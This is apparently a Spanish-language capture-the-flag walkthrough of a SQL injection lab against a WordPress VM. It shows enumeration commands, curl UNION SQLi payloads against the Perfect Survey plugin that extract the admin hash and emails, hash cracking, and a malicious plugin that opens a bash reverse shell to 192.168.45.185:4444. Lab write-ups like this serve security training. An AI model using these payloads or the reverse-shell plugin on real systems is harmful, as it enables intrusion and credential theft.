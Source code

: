 # Walk: SQL Injections Attacks - Module Exercise - VM 1 

## Fecha: 25/01/2025
## Host: Ubuntu
## IP: 192.168.136.47

---

## Objetivo
**Capstone Lab:** Enumerate the Module Exercise - VM #1 and exploit the SQLi vulnerability to get the flag.

---
## Herramientas
1. sqlmap
2. burpsuite
3. gobuster
4. curl
5. wpscan
6. nc

---
## Procedimiento y comandos
1. Paso 1: Enumeracion:
	- **gobuster -u http://alvida-eatery.org/ -w /usr/shares/wordlists/big.txt -o result-vm1.txt**
	-  ** cat result-vm1.txt **
	/.htaccess            (Status: 403) [Size: 282]
	/.htpasswd            (Status: 403) [Size: 282]
	/server-status        (Status: 403) [Size: 282]
	/wp-admin             (Status: 301) [Size: 325] [--> http://alvida-eatery.org/wp-admin/]
	/wp-content           (Status: 301) [Size: 327] [--> http://alvida-eatery.org/wp-content/]
	/wp-includes          (Status: 301) [Size: 328] [--> http://alvida-eatery.org/wp-includes/]
 - Observamos el directorio **/wp-admin** el formulario de login
2. Paso 2: Luego de varios intentos fallidos con payloads manuales vamos por sqlmap:
	- **sqlmap -u "http://alvida-eatery.org/wp-login.php?redirect_to=http%3A%2F%2Falvida-eatery.org%2Fwp-admin%2F&reauth=1" --batch --risk=3 --level=5**
	- **--batch** : Responde automáticamente las preguntas de sqlmap.
	- **--risk=3**: Realiza pruebas más agresivas.
	- **--level=5**: Examina más parámetros y realiza más pruebas.
	- Paciencia...
	- despues de horas no devolvio nada interesante.
	- La enumeracion con wpscan devolvio un plugin con una version vulnerable a Unauthenticated SQL Injection: **Perfect Survey**
3. Paso 3: Buscamos la prueba de concepto:
	- https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad/
	- y la implementamos en el login que obtuvo gobuster
	- **curl "http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users"**
	- En esta respuesta estan los datos del usuario admin: 
	Usuario: "admin"
	Contraseña hash: "$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0"
	- Adicionalmente podemos intentar extraer mails:
 	- **curl "http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1 union select 1,1,group_concat(user_login,0x3a,user_email),null,null,null,null,null,null,null,null,null,null,null,null,null from wp_users"**
	
4. Paso 4: Analizamos el hash con herramientas:
	- **$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0:68756c6162616c6f6f:phpass, phpBB3 (MD5), Joomla >= 2.5.18 (MD5), WordPress (MD5)** // https://hashes.com/en/decrypt/hash
	- ckrackeamos el hex: **68756c6162616c6f6f** --> **hulabaloo** // https://www.convertstring.com/EncodeDecode/HexDecode
5. Paso 5: Obtenemos un reverse shell:
	- preparamos el reverse shell con las caracteristicas de un plugin wp:
	1. **Debe esta en un .zip**
	2. **Debe tener una cabecera minima**
	- Generamos el shell: 
	<?php
		/*
		Plugin Name: simple reverse shell
		Description: A malicious WordPress plugin for reverse shell.
		Version: 1.0
		Author: Santi
		*/

		exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.185/4444 0>&1'");
	?>

	- La colocamos en una carpeta: /reverse-shell
	- Editamos el shell coloclando cabecera, ip y port en el que escuchara nc:
	/*
	Plugin Name: Malicious Plugin
	Description: A malicious WordPress plugin for reverse shell.
	Version: 1.0
	Author: Attacker
	*/
	- ** zip -r reverse-shell.zip reverse-shell/**
	- Subimos en carpteta plugins y activamos el plugin malicicoso
	- **nc -lnvp 4444**
	- Navegamos a: **http://alvida-eatery.org/wp-content/plugins/shell/shell.php**
6. Paso 6: Buscamos el flag:
	- grep -r "OS{[a-z0-9]*}" /var/www 2>/dev/null
	/var/www/flag.txt:OS{...flag...}
	
---
## Troubleshooting
* Problemas de conexion con nc.. 
* 
---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

